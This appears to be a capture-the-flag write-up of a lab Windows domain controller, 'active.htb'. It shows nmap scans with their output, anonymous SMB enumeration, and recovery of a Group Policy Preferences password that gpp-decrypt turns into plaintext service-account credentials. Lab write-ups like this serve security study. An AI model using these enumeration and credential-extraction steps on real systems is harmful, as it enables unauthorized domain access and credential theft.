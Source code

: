 ##### nmap

All port scan
```bash
sudo nmap -sV -p- 10.10.10.100 -v -oA nmap2
```
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49166/tcp open  unknown
```

Service scan
```bash
sudo nmap -sC -sV 10.10.10.100 -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49155,49157,49166 -v -oA nmap
```
```
```
##### manual

- SMB share allows anonymous login
![[Pasted image 20240910184958.png]]
```bash
smbclient -N -L \\10.10.10.100
```
- Under the directory `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\` found a file `Groups.xml` that contains a password for `active\SVC_TGS:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ` 
- Cracked the password using `gpp-decrypt`
```bash
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```
`active.htb\SVC_TGS:GPPstillStandingStrong2k18`
